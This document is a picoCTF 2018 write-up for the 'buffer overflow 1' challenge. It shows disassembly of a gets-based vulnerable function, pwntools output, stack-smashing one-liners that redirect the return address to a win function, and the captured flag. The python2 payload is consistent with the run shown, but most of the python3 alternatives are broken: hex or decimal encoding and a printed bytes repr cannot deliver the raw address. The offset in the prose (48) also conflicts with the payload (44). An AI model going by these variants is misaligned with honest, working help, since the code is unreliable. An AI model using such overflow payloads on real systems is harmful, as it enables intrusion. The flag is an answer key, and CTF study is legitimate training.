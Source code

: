 # buffer overflow 1

__PROBLEM__

Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this program? You can find it in /problems/buffer-overflow-1_2_86cbe4de3cdc8986063c379e61f669ba[program](./vuln) on the shell server. [Source](./vuln.c).

__HINT__
This time you're actually going to have to control that return address!
Make sure you consider Big Endian vs Little Endian.

__SOLUTION__
Open `vuln` under cutter and look at `vuln` function:
```
/ (fcn) sym.vuln 46
|   sym.vuln ();
|           ; var char *s @ ebp-0x28
|           0x0804862f      push ebp
|           0x08048630      mov ebp, esp
|           0x08048632      sub esp, 0x28 ; '('
|           0x08048635      sub esp, 0xc
|           0x08048638      lea eax, [s]
|           0x0804863b      push eax ; char *s
|           0x0804863c      call sym.imp.gets ; char *gets(char *s)
|           0x08048641      add esp, 0x10
|           0x08048644      call loc.get_return_address
|           0x08048649      sub esp, 8
|           0x0804864c      push eax
|           0x0804864d      push str.Okay__time_to_return..._Fingers_Crossed..._Jumping_to_0x_x ; 0x80487d4 ; "Okay, time to return... Fingers Crossed... Jumping to 0x%x\n" ; const char *format
|           0x08048652      call sym.imp.printf ; int printf(const char *format)
|           0x08048657      add esp, 0x10
|           0x0804865a      nop
|           0x0804865b      leave
\           0x0804865c      ret
```

```
/ (fcn) sym.win 100
|   sym.win ();
|           ; var char *format @ ebp-0x4c
|           ; var file*stream @ ebp-0xc
|           0x080485cb      push ebp
...
```

```
/ (fcn) main 99
|   int main (int argc, char **argv, char **envp);
...
|           0x080486ab      add esp, 0x10
|           0x080486ae      call sym.vuln
|           0x080486b3      mov eax, 0
```


I just found that return address which is stored in `ebp` register is 48 bytes moved.
Extract address of `win` function `'\xcb\x85\x04\x08'` or from cutter or frow pwn:
```
>>> from pwn import *
>>> vuln = ELF('./vuln')
[*] 'buffer overflow 1/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
>>> p32(vuln.symbols['win']) # Get address of win function
'\xcb\x85\x04\x08'
```

Create payload for buffer overflow
```
python2 -c "print 'A'*44 + '\xcb\x85\x04\x08' " | ./vuln

python3 -c "print('A'*44 + '\xcb\x85\x04\x08'.encode().hex())" | ./vuln
python3 -c "print('A'*44 + str(0x080485cb))" | ./vuln
python3 -c "print(bytes([ord('A')] * 44 + [0xcb, 0x85, 0x04, 0x08]))" | ./vuln

```
I got the flag:
```sh
luk6xff@pico-2018-shell:/problems/buffer-overflow-1_2_86cbe4de3cdc8986063c379e61f669ba$ python2 -c "print 'A'*44 + '\xcb\x85\x04\x08' " | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy56a7b196}Segmentation fault (core dumped)
```

FLAG - `picoCTF{addr3ss3s_ar3_3asy56a7b196}`
